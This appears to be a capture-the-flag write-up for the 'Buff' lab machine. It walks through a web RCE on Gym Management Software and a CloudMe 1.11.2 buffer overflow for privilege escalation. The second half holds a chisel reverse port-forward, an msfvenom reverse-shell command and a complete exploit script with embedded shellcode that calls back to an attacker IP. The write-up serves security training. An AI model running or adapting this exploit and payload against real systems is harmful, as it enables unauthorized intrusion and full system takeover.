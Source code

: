 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16) (4) (2).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9) (2) (5).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13) (2) (4).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can download `nc.exe` onto the machine via `smbserver.py`.&#x20;

<figure><img src="../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,564,353,536 bytes free
```

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe client 10.10.14.2:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

The final script based on the PoC should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
payload = b""
payload += b"\xdb\xc0\xb8\x78\xb6\x92\xc4\xd9\x74\x24\xf4"
payload += b"\x5b\x29\xc9\xb1\x52\x31\x43\x17\x03\x43\x17"
payload += b"\x83\x93\x4a\x70\x31\x9f\x5b\xf7\xba\x5f\x9c"
payload += b"\x98\x33\xba\xad\x98\x20\xcf\x9e\x28\x22\x9d"
payload += b"\x12\xc2\x66\x35\xa0\xa6\xae\x3a\x01\x0c\x89"
payload += b"\x75\x92\x3d\xe9\x14\x10\x3c\x3e\xf6\x29\x8f"
payload += b"\x33\xf7\x6e\xf2\xbe\xa5\x27\x78\x6c\x59\x43"
payload += b"\x34\xad\xd2\x1f\xd8\xb5\x07\xd7\xdb\x94\x96"
payload += b"\x63\x82\x36\x19\xa7\xbe\x7e\x01\xa4\xfb\xc9"
payload += b"\xba\x1e\x77\xc8\x6a\x6f\x78\x67\x53\x5f\x8b"
payload += b"\x79\x94\x58\x74\x0c\xec\x9a\x09\x17\x2b\xe0"
payload += b"\xd5\x92\xaf\x42\x9d\x05\x0b\x72\x72\xd3\xd8"
payload += b"\x78\x3f\x97\x86\x9c\xbe\x74\xbd\x99\x4b\x7b"
payload += b"\x11\x28\x0f\x58\xb5\x70\xcb\xc1\xec\xdc\xba"
payload += b"\xfe\xee\xbe\x63\x5b\x65\x52\x77\xd6\x24\x3b"
payload += b"\xb4\xdb\xd6\xbb\xd2\x6c\xa5\x89\x7d\xc7\x21"
payload += b"\xa2\xf6\xc1\xb6\xc5\x2c\xb5\x28\x38\xcf\xc6"
payload += b"\x61\xff\x9b\x96\x19\xd6\xa3\x7c\xd9\xd7\x71"
payload += b"\xd2\x89\x77\x2a\x93\x79\x38\x9a\x7b\x93\xb7"
payload += b"\xc5\x9c\x9c\x1d\x6e\x36\x67\xf6\x9b\xcd\x69"
payload += b"\x04\xf4\xd3\x75\x09\xbf\x5d\x93\x63\xaf\x0b"
payload += b"\x0c\x1c\x56\x16\xc6\xbd\x97\x8c\xa3\xfe\x1c"
payload += b"\x23\x54\xb0\xd4\x4e\x46\x25\x15\x05\x34\xe0"
payload += b"\x2a\xb3\x50\x6e\xb8\x58\xa0\xf9\xa1\xf6\xf7"
payload += b"\xae\x14\x0f\x9d\x42\x0e\xb9\x83\x9e\xd6\x82"
payload += b"\x07\x45\x2b\x0c\x86\x08\x17\x2a\x98\xd4\x98"
payload += b"\x76\xcc\x88\xce\x20\xba\x6e\xb9\x82\x14\x39"
payload += b"\x16\x4d\xf0\xbc\x54\x4e\x86\xc0\xb0\x38\x66"
payload += b"\x70\x6d\x7d\x99\xbd\xf9\x89\xe2\xa3\x99\x76"
payload += b"\x39\x60\xa9\x3c\x63\xc1\x22\x99\xf6\x53\x2f"
payload += b"\x1a\x2d\x97\x56\x99\xc7\x68\xad\x81\xa2\x6d"
payload += b"\xe9\x05\x5f\x1c\x62\xe0\x5f\xb3\x83\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

Afterwards, run it using `python3` and an administrator shell will spawn.

<figure><img src="../../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

Rooted!
